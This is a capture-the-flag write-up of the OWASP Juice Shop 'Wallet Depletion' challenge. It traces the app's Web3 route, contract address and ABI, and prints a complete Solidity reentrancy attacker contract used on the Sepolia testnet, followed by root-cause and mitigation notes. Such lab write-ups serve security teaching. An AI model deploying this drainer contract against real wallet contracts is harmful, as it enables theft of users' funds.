






# Wallet Depletion

## Challenge Information

| Field           | Details                                                   |
| --------------- | --------------------------------------------------------- |
| **Category**    | Miscellaneous                                             |
| **Difficulty**  | 6                                                         |
| **Tags**        | Web3, Internet Traffic                                    |
| **Challenge**   | Wallet Depletion                                          |
| **Description** | Withdraw more ETH from the new wallet than you deposited. |
| **Hint**        | Try to exploit the contract of the wallet.                |



---

## Objective

The objective was to withdraw more ETH from the Juice Shop Web3 wallet than was deposited.

The challenge required investigating the application's Web3 functionality, identifying the wallet smart contract, understanding its available functions, and exploiting a reentrancy vulnerability in the contract.

---

## Reconnaissance

### 1. Identify the Challenge

The challenge was first reviewed from the Juice Shop Score Board to identify its category, difficulty, description, and hint.

The hint was particularly important:

> Try to exploit the contract of the wallet.

This indicated that the main attack surface was likely a smart contract rather than a conventional HTTP endpoint.

---

### 2. Locate the Web3 Wallet Route

The Juice Shop source code was searched for the challenge identifier:

```bash
grep -R "web3WalletChallenge" /var/lib/juice-shop/build /var/lib/juice-shop/config
```

### What this finds

`grep -R` recursively searches files and directories for matching text.

Searching for `web3WalletChallenge` helps locate the backend code responsible for the Wallet Depletion challenge.

### Why this mattered

The search led to the Web3 wallet route:

```text
/var/lib/juice-shop/build/routes/web3Wallet.js
```

The route revealed that the application connects to an Ethereum contract and listens for a `ContractExploited` event.

Relevant logic:

```javascript
const metamaskAddress = req.body.walletAddress;

const provider = new ethers.WebSocketProvider(
  'wss://eth-sepolia.g.alchemy.com/v2/...'
);

const contract = new ethers.Contract(
  web3WalletAddress,
  web3WalletABI,
  provider
);
```

The route also showed the challenge trigger:

```javascript
contract.on('ContractExploited', (exploiter) => {
  if (walletsConnected.has(exploiter)) {
    walletsConnected.delete(exploiter);
    challengeUtils.solveIf(
      challenges.web3WalletChallenge,
      () => true
    );
  }
});
```

This established that the challenge would be solved when the vulnerable contract emitted the `ContractExploited` event for the connected wallet.

---

## 3. Discover the Smart Contract Address

The source code was inspected to identify the value assigned to `web3WalletAddress`.

The vulnerable wallet contract was identified as:

```text
0x413744D59d31AFDC2889aeE602636177805Bd7b0
```

This became the primary target for the authorized lab exploitation.



---

## 4. Inspect the Contract ABI

The contract ABI was located in the Juice Shop source:

```text
/var/lib/juice-shop/build/data/static/contractABIs.js
```

The relevant functions included:

```javascript
balanceOf(address)
balances(address)
ethdeposit(address)
userWithdrawing(address)
withdraw(uint256)
```

The contract also exposed the following event:

```javascript
ContractExploited(address culprit)
```

### Why the ABI mattered

The ABI showed how the wallet could be interacted with:

* `ethdeposit()` — deposits ETH for an address
* `balanceOf()` — checks a user's recorded balance
* `withdraw()` — withdraws ETH
* `ContractExploited` — indicates successful exploitation

This gave us the information needed to investigate the contract's withdrawal behavior.

---

## 5. Inspect the Frontend Web3 Logic

The Juice Shop frontend code was examined to understand how legitimate users interact with the contract.

The frontend showed that deposits use:

```javascript
ethdeposit(
  metamaskAddress,
  { value: parseEther(inputAmount) }
)
```

and withdrawals use:

```javascript
withdraw(parseEther(inputAmount))
```

The wallet balance was retrieved through:

```javascript
balanceOf(metamaskAddress)
```

The application also required the Ethereum Sepolia test network.

This confirmed the intended contract interaction and identified the functions relevant to the attack.

---

## 6. Identify the Vulnerability

The contract's withdrawal behavior allowed a reentrancy attack.

The attack works by:

1. Deploying an attacker contract.
2. Depositing ETH into the vulnerable wallet through the attacker contract.
3. Calling `withdraw()`.
4. Receiving ETH through the attacker's `receive()` function.
5. Calling `withdraw()` again before the vulnerable contract has safely completed its state update.
6. Repeating the withdrawal while sufficient contract funds remain.

The vulnerable interaction therefore allowed the attacker contract to re-enter the withdrawal function.

---

## Web3 Sandbox Discovery

While investigating the Web3 functionality, the **Web3 Sandbox** challenge was also encountered and solved.

The sandbox provided an additional indication that the application contained intentionally exposed smart-contract functionality.





---

# Exploitation

## 1. Create the Attack Contract

A Solidity contract was created in Remix:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.14;

interface IWallet {
    function ethdeposit(address _to) external payable;
    function withdraw(uint256 _amount) external;
    function balanceOf(address _who) external view returns (uint256);
}

contract WalletAttack {
    IWallet public wallet;
    uint256 public attackAmount;

    constructor(address _wallet) {
        wallet = IWallet(_wallet);
    }

    function attack() external payable {
        attackAmount = msg.value;
        wallet.ethdeposit{value: msg.value}(address(this));
        wallet.withdraw(msg.value);
    }

    receive() external payable {
        if (address(wallet).balance >= attackAmount) {
            wallet.withdraw(attackAmount);
        }
    }

    function withdrawLoot() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

The vulnerable Juice Shop wallet address was supplied to the constructor:

```text
0x413744D59d31AFDC2889aeE602636177805Bd7b0
```

---

## 2. Compile the Contract

The `WalletAttack` contract was compiled using the Solidity Compiler in Remix.

The correct contract artifact was selected instead of the `IWallet` interface.

---

## 3. Deploy the Attack Contract

The attacker contract was deployed through Remix using MetaMask on the **Sepolia Testnet**.

Only Sepolia test ETH was used for this laboratory exercise.



The deployed attacker contract was then interacted with through Remix.

---

## 4. Execute the Reentrancy Attack

The deployed `WalletAttack` contract exposed the `attack` function.

The transaction was submitted through Remix using a small amount of Sepolia test ETH.

The transaction was confirmed successfully on the Sepolia testnet.

The reentrant `receive()` function caused the vulnerable wallet's `withdraw()` function to be called again before the withdrawal process had safely completed.

This resulted in the Wallet Depletion challenge being triggered.

---

## Evidence of Successful Exploitation

Juice Shop displayed:

> You successfully solved a challenge: Wallet Depletion

This confirms that the application's `ContractExploited` event was triggered and the challenge condition was satisfied.



---

# Security Impact

A reentrancy vulnerability in a cryptocurrency wallet can allow an attacker to withdraw funds repeatedly during a single transaction before the contract correctly updates the attacker's balance.

In a real cryptocurrency application, this could result in unauthorized loss of funds.

The impact depends on the amount of ETH or other assets held by the vulnerable contract.

---

# Root Cause

The fundamental issue is the interaction between external calls and state management during withdrawal.

A vulnerable withdrawal flow can effectively become:

```text
Check balance
    ↓
Send ETH
    ↓
Update balance
```

The external ETH transfer gives the recipient an opportunity to execute code before the state update is safely completed.

A safer design follows the **Checks-Effects-Interactions** pattern:

```text
Check
  ↓
Update state
  ↓
Interact externally
```

Additional protections such as a reentrancy guard can also be used where appropriate.

---

# Lessons Learned

* Smart contracts are part of the application's attack surface.
* Reconnaissance should include source-code analysis when the application is available locally.
* Searching for a challenge identifier can reveal the backend route responsible for its security condition.
* Contract addresses and ABIs can reveal the functions available to an attacker.
* Frontend Web3 code can reveal how smart-contract functions are intended to be called.
* Reentrancy occurs when external execution can re-enter a contract before its state has been safely updated.
* Blockchain transactions should be tested only against authorized contracts and test networks during security research.
* Exploitation evidence should demonstrate both the attack transaction and the application's resulting security state.

---

# Conclusion

The Wallet Depletion challenge was solved by tracing the application's Web3 functionality from the challenge metadata through the backend route, smart-contract address, ABI, and frontend contract interactions.

The investigation identified a reentrancy condition in the wallet's withdrawal process. A purpose-built Solidity attacker contract was deployed to the Sepolia testnet and used to trigger the vulnerable withdrawal behavior.

Juice Shop confirmed successful exploitation by displaying the Wallet Depletion challenge completion notification.
